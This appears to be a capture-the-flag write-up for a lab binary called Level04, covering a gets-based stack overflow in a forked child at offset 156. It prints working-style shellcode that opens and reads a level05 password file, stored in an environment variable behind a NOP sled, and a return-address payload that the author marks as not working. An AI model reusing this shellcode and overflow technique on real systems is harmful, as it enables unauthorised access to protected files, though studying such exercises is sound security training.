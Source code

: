 # Level04

## Reconnaissance

We have one security enabled:
- **RELRO Partial enabled** = GOT (Global Offset Table) placed were we cannot overflow

This binary does a fork at the beginning.
With gdb, we notice that the parent process checks if the child process is not call an `exec`
and the child process, ask for input with `gets`, so we can overwrite the return pointer of main there.

## Exploit

We gonna overwrite the pointer of main in the child process. The only issue is that the parent process 
monitor the child process, preventing us of call exec in the child process.
We gonna create a shellcode which is going to print the flag instead of opening a shell.
Offset 156.

We put the shellcode in the env (`0xffffd7ae`): `export SHELLCODE=$(python -c 'print 100 * "\x90" + "\x31\xc0\x50\x68\x70\x61\x73\x73\x68\x30\x35\x2f\x2e\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x31\xc9\x31\xd2\x89\xe3\xb8\x05\x00\x00\x00\xcd\x80\x83\xec\x29\x89\xc3\x89\xe1\xba\x29\x00\x00\x00\xb8\x03\x00\x00\x00\xcd\x80\xba\x29\x00\x00\x00\x89\xe1\xbb\x01\x00\x00\x00\xb8\x04\x00\x00\x00\xcd\x80"')` 

Payload => `python -c 'print "A" * 156 + "\xce\xd7\xff\xff"'` NOT WORKING